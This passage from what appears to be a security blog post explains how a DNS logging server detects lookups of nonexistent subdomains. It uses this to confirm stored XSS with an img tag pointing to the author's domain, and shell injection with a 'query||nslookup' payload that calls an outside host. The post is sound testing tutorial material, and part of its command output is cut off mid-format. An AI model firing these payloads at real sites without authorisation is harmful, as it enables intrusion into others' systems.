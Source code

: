 ```

$ ping noserver.skullseclabs.org
Ping request could not find host noserver.skullseclabs.org. Please check the name and try again.
```

Conclusion? It's down. If you were investigating an incident and you saw that message, you'd conclude that there's nothing there, right? Probably?

Let's fire up dnslogger.rb:

```

$ sudo ruby ./dnslogger.rb
dnslogger v1.0.0 is starting!

Starting dnslogger DNS server on 0.0.0.0:53
```

Then do the same ping (with a different domain, because caching can screw you up):

```

$ ping yesserver.skullseclabs.org
Ping request could not find host yesserver.skullseclabs.org. Please check the name and try again.
```

It's the exact. Same. Response. The only difference is, on the DNS server, we see this:

```

$ sudo ruby ./dnslogger.rb
dnslogger v1.0.0 is starting!

Starting dnslogger DNS server on 0.0.0.0:53
Got a request for yesserver.skullseclabs.org [type = A], responding with NXDomain
```

What's this? *We saw the request*! Even if the person doing the lookup thought it failed, it didn't: WE KNOW.

That's really cool, because it's a really, really stealthy way to find out if somebody is looking you up. If you do a reverse DNS lookup for 206.220.196.59, you'll see:

```

$ dig -x 206.220.196.59
[...]
;; ANSWER SECTION:
59.196.220.206.in-addr.arpa. 3567 IN    PTR     test.skullseclabs.org.
```

And if you look up the forward record:

```

$ dig test.skullseclabs.org
[...]
;; ->>HEADER
<p>NXDOMAIN = "no such domain". Totally stealth!</p>
<h2>Why is it so awesome?</h2>
<p>Let's say you're testing for cross-site scripting on a site. Post <tt><img src="pagenamegoeshere.skullseclabs.org" /></tt> everywhere. If you later see a request like "adminpage.skullseclabs.org" come in, then guess what? You found some stored XSS on their admin page!</p>
<p>Let's say you're looking for shell injection. Normally, you do something like "vulnerablesite.com/query?q=myquery||ping -c5 localhost". If it takes 5 seconds, it's probably vulnerable to <s>XSS</s>shell command injection [thanks albinowax!]. That's lame. Instead, do a query for "myquery||nslookup pagename.skullseclabs.org". If you see the query, it's definitely vulnerable. If you don't, it's almost certainly not.</p>
```